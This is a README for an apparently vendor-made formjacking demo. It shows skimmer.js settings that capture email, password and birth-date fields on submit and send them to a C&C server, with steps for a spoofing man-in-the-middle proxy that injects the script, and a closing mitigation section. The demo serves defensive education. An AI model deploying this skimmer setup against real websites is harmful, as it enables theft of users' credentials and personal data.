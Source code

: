 Formjacking Attack
##############################################################

.. image:: ./_pictures/UFO_mamy.png
   :align: center
   :width: 800
   :alt: All layers

.. contents:: Contents
    :local:

Introduction
*****************************************

This blog provides a formjacking code in order to understand how it works.

F5 customers are protected from magecart style attack by `F5 Client-Side Defense <https://www.f5.com/cloud/products/client-side-defense>`_:

    - **Analyse** the behavior of all Javascripts executed on your website
    - **Alert** your Cyber-SOC team if a javascript behaves like a malware and take action immediately (allow/block)
    - **Block** malicious Javascript execution

Thanks to `unit42 <https://unit42.paloaltonetworks.com/>`_ that did a great blog `here <https://unit42.paloaltonetworks.com/anatomy-of-formjacking-attacks/>`_ on this topic.

Configuration guide
*****************************************
- Open the web page with targeted form
- Inspect ``input`` elements to grab user data. Each element can be identified by an ``id``, a ``name``, a ``type``, etc...

.. code-block:: html

    <input ... id="login-credentials-form-password" name="password-uuid" type="password" ...>

- Open the file `skimmer.js <https://github.com/nergalex/f5-magecart/blob/master/skimmer.js>`_
- Update the first 2 or 3 lines describing ``input`` elements to grab user data. See `examples </example>`_

.. code-block:: javascript

    window["data_leak_label_email"] = ["input[id*='login-credentials-form-email']", "input[name*='email']", "input[type*='email']"]
    window["data_leak_label_password"] = ["input[id*='login-credentials-form-password']", "input[name*='password']"]
    window["data_leak_label_birth_date"] = ["input[id*='login-credentials-form-birthdate']", "input[name*='birthDate']"]

- Go back to the web page, inspect ``button`` elements when the user submit the form

.. code-block:: html

    <button ... type="submit" id="login-button">

- In `skimmer.js <https://github.com/nergalex/f5-magecart/blob/master/skimmer.js>`_, the
- The fourth line describes ``button`` element to watch in order to send data to remote C&C server.
.. code-block:: javascript

    window["data_leak_label_submit_button"] = ["button[id*='login-button']"]

- If the form contains more or less input fields, update ``function listener_fetch_data_leak()`` in order to have exactly all required ``input`` elements defined previously

.. code-block:: javascript

    data_leak = {
        "email": get_element_value(window["data_leak_label_email"]),
        "password": get_element_value(window["data_leak_label_password"]),
        "birth_date": get_element_value(window["data_leak_label_birth_date"]),
        "uagent": navigator.userAgent
    }

Deployment guide
*****************************************

C&C server
=========================================
- Run C&C server as described `here <https://github.com/nergalex/c2-server>`_

Man In the Middle
=========================================
- Run a Reverse-Proxy that acts as a Man-In-The-Middle: forward all traffic to ORIGIN servers
- If DNS domain is spoofed, rewrite SNI and headers (HOST, ORIGIN and eventually others required by the App)
- Inject malware JS `skimmer.js <https://github.com/nergalex/f5-magecart/blob/master/skimmer.js>`_ in all or specific pages

BIG-IP UI configuration for JS insertion:

    Local Traffic  ››  Profiles : Content : HTML : Rules /Common/form_grabber
    +-- Match settings ››  Match Tag Name: head
    +-- Action settings ››  HTML to Append: copy paste content of `skimmer.js <https://github.com/nergalex/f5-magecart/blob/master/skimmer.js>`_ surrounded by <script>...</script>

    Local Traffic  ››  Profiles : Content : HTML : /Common/html-demo
    +-- HTML rules: form_grabber

    Local Traffic  ››  Virtual Servers ››  vs-demo
    +-- HTML Profile: html-demo

- Enable compression on client-side / downstream-side if ORIGIN servers use compression

Mitigation guide
*****************************************
- Connect to F5 Distributed Cloud
- Get your Client Side Defense JS (CSD)
- Inject CSD JS as well in the web page to protect

BIG-IP UI configuration for JS insertion:

    Local Traffic  ››  Profiles : Content : HTML : Rules /Common/f5_csd
    +-- Match settings ››  Match Tag Name: head
    +-- Action settings ››  HTML to Append: copy paste F5 CSD JS link

    Local Traffic  ››  Profiles : Content : HTML : /Common/html-demo
    +-- HTML rules: form_grabber + f5_csd


